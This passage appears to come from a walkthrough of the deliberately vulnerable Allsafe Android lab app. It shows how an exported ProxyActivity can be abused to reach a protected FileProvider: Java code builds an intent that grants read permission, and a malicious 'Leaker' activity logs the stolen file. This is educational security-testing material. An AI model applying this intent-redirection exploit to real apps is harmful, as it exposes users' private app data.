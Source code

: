Now, luckily, this is not the end of the road because the provider has the `android:grantUriPermissions` flag set to `true`. This flag grants permission to perform read operations on the URI via the intent’s data.<br />
One last thing to notice is the code in `infosecadventures.allsafe.ProxyActivity`. You can see that this activity can start other activities based on an `intent` passed to it.

![52](/assets/images/Android/Allsafe/52.png)

This means that `ProxyActivity` can give us access to the protected content provider. To do so I'll have to write a malicious application that sets itself as the recipient of an embedded intent and sets the `Intent.FLAG_GRANT_READ_URI_PERMISSION` flag to give read permission on the provider then have `ProxyActivity` communicate with my app via the below intent

```java
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.example.infostealer.Leaker");
extra.setData(Uri.parse("content://infosecadventures.allsafe.fileprovider/files/docs/readme.txt"));
```
where `com.example.infostealer.Leaker` is an exported activity defined in my malicious application with the below code:
```java
public class Leaker extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_leaker);

        try {
            Log.d("Leaked File", IOUtils.toString( getContentResolver().openInputStream(getIntent().getData())) );
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}
```
The reason such an approach will work is that on Android, if an app does not have the right to access a given Content Provider, but the flags are set to provide access, then the flags will be ignored. But, if it does have access rights, then the same rights are transferred to the app to which the Intent is passed.<br />
And because `ProxyActivity` have access rights, these rights will be transferred to `com.example.infostealer.Leaker` with the intent.
